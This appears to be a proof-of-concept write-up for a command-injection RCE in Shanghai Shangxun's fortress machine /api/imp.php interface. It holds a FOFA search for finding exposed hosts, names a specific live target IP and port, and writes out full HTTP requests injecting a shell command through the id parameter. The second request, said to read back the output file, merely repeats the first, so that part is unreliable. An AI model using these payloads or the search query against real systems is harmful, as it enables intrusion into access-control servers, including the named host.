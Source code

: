 #### Shanghai Shangxun Information Technology Co., Ltd_Fortress machine_/api/imp.php interface RCE

##### FOFA statement：

```
body="default/getloginhtml"
```

##### Vulnerability details：

If you run poc1 and then poc2, you can return the commands executed in poc1 to the 1.txt.

target:https://58.34.251.124:30443/

##### POC1：

![image-20250125220155441](./1.png)

```
GET /api/imp.php?type=immediate&id=|id%3E1.txt| HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: localecookie=a%3A3%3A%7Bs%3A12%3A%22DEFAULT_LANG%22%3Bs%3A11%3A%22zh_CN.UTF-8%22%3Bs%3A12%3A%22FIELD_PREFIX%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22PACKAGE%22%3Bs%3A3%3A%22oma%22%3B%7D; PHPSESSID=4ce3c4182e3a2d2684bb6964f4a16842
```

![image-20250125220033222](./2.png)

##### POC2：

![image-20250125220205777](./3.png)

```
GET /api/imp.php?type=immediate&id=|id%3E1.txt| HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: localecookie=a%3A3%3A%7Bs%3A12%3A%22DEFAULT_LANG%22%3Bs%3A11%3A%22zh_CN.UTF-8%22%3Bs%3A12%3A%22FIELD_PREFIX%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22PACKAGE%22%3Bs%3A3%3A%22oma%22%3B%7D; PHPSESSID=4ce3c4182e3a2d2684bb6964f4a16842
```

![image-20250125220049338](./4.png)
